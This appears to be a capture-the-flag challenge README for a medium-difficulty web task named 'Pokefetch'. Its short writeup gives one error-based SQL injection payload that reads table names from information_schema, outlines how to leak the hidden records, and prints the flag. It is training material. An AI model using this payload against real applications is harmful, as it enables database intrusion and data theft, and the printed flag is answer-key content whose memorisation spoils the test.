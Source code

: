 # Pokefetch

### Difficulty
medium

### Challenge Description

Explore the legendary poke world, you might not know what is hidden there... `Set Query Let's inject`...

### Short Writeup

+ `1' and extractvalue(0x0a, concat(0x0a, (select table_name from information_schema.tables where table_schema=database()))) # ` should get the table name.
+ Then using the same error based injection they need to leak the pokemoms and URLs.
+ One of the pokemom's URL is the flag.

### Flag

inctfj{http://1_70v3_3v07u710n5.com}

### Author

**exigent07**

